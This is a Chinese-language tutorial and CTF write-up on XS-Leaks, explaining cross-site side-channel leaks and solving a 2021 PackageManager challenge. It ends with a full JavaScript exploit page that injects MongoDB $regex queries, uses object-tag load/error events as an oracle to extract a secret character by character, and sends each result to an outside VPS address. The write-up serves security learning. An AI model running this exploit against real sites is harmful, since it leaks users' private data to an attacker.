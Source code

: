 # **XSleaks**

## **什么是 XS-Leaks**

XS-Leaks 全称 Cross-site leaks，可以用来 **探测用户敏感信息**。利用方式、利用条件等都和 csrf 较为相似。

说到探测用户敏感信息，是如何进行探测的？和csrf 相似在哪？

设想网站存在一个模糊查找功能（若前缀匹配则返回对应结果）例如 `http://localhost/search?query=`，页面是存在 xss 漏洞，并且有一个类似 flag 的字符串，并且只有不同用户查询的结果集不同。这时你可能会尝试 csrf，但是由于网站正确配置了 CORS，导致无法通过 xss 结合 csrf 获取到具体的响应。这个时候就可以尝试 XS-Leaks。

虽然无法获取响应的内容，但是是否查找成功可以通过一些侧信道来判断。通过哪些侧信道判断呢？

这些侧信道的来源通常有以下几类：

1. 浏览器的 api (e.g. [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/) and [Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/))
2. 浏览器的实现细节和bugs (e.g. [Connection Pooling](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) and [typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch))
3. 硬件bugs (e.g. Speculative Execution Attacks [4](https://xsleaks.dev/#fn:4))

## 利用条件

具有模糊查找功能，可以构成二元结果（成功或失败），并且二元之间的差异性可以通过某种侧信道技术探测到。

可以和 csrf POST 型一样触发，需要诱使受害者触发执行 js 代码。所以特定功能数据包必须没有类似 csrf token 的保护等。



## 配合学习

强烈推荐祥云杯web_PackageManager2021，在BUUCTF上已有复现，典型的xsLeaks题目，关于xsleaks的部分wp



利用`packages/list/?search`的功能，发现虽然可以实现search的功能，但是并不能按照内容正则匹配搜出来

![](img/wp1.png)

这里search参数可以是对象。而对于后端mongodb来说，我们是能利用`{$regex: 'xxx'}`这样的查询进行正则搜索的。故访问 `packages/list?search[description][$regex]=^f`就可以进行正则查询desscription了。这样就符合xsleak的思路了。

而具体leak的方法。我们使用`object`标签。它能在火狐环境下做到，如果`object.data`访问状态码200，就会触发onload事件。如果访问状态码404，就会触发onerror事件。我们根据这个差异性，就能利用search注出flag内容了。

后面是自己VPS搭建一个接收

```javascript
<html>
<script>
    const VPS_IP = 'http://120.27.246.202/'
    const chars = "0123456789abcdefghijklmnopqrstuvwxyz-{}";
    
    const escape = (c) => {
        return c.replace(/[.*+?^=!:${}()|[\]\/\\]/g, '\\$&');
    }
    
    const oracle = async (url) => {
        return new Promise((resolve, reject) => {
            const object = document.createElement("object");
            object.data = url;
            object.onload = resolve;
            object.onerror = reject;  
            document.head.appendChild(object);
        });
    }
    const search = async (url) => {
        try {
            await oracle(url)
            return true;
        } catch (e) {
            return false;
        }
    }

    (async () => {
        let flag = '';
        let url = `http://localhost:8000/packages/list?search[description][$regex]=^${flag}`
        while (flag.charAt(flag.length - 1) !== "}") {
            for ( let i of chars ) {
            if ( await(search(url + escape(i))) ) {
                url = url + escape(i)
                flag += i
                await fetch(`${VPS_IP}/?flag=${flag}`, {mode: 'no-cors'})
                break;
        }   else {
            console.log('failed');
            }
         }
        }
    })();
</script>
<img src="https://deelay.me/10000/http://example.com"/>
</html
```

![](img/xsleaks.png)

可以看看最后的效果